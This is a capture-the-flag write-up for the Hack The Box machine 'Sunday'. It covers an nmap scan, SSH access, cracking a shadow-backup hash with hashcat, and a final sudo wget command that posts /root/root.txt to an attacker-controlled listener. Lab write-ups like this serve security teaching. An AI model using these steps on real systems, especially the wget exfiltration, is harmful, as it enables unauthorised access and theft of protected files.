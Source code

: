 # Recon
We start with a nmap scan but we add ```--max-retries 0``` so it will speed up the process.
```
sudo nmap -sV -sC -O -p- -oN nmap.txt 10.10.10.76 -T 5 --max-retries 0
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Sunday/assets/2.png">

# Enumeration
We can do a simple check to see which users exist:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Sunday/assets/1.png">

# Initial Foothold
We can now login using SSH on port 22022 with password ```sunday```. We see that we can run ```sudo /root/troll```. But the binary doesn't seem to exist.

We find a shadow backup file which we can read. We extract the hash and bruteforce it with hashcat.
```
hashcat -a 0 -m 7400 hash /usr/share/wordlists/rockyou.txt -w 3 -O
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Sunday/assets/3.png">

We can now login as user sammy. Using ```sudo -l``` we find that it's possible to run ```sudo /usr/bin/wget```.

We can use it to paste the content of root.txt and collect it with netcat.
```
sudo /usr/bin/wget --post-file=/root/root.txt 10.10.14.7:4444
```


